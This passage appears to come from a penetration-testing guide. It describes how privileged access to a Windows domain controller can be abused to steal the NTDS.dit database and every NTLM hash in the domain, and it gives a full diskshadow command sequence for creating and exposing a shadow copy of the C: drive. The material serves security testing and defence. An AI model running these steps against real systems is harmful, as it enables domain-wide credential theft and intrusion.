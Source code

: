 ![](../../.gitbook/assets/a7.png)

You can abuse this access to **steal** the active directory database **`NTDS.dit`** to get all the **NTLM hashes** for all user and computer objects in the domain.

Using [**diskshadow**](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/diskshadow) you can **create a shadow copy** of the **`C` drive** and in the `F` drive for example. The, you can steal the `NTDS.dit` file from this shadow copy as it won't be in use by the system:

```
diskshadow.exe

Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC,  10/14/2020 10:34:16 AM

DISKSHADOW> set verbose on
DISKSHADOW> set metadata C:\Windows\Temp\meta.cab
DISKSHADOW> set context clientaccessible
DISKSHADOW> set context persistent
DISKSHADOW> begin backup
DISKSHADOW> add volume C: alias cdrive
DISKSHADOW> create
DISKSHADOW> expose %cdrive% F:
DISKSHADOW> end backup
DISKSHADOW> exit
```
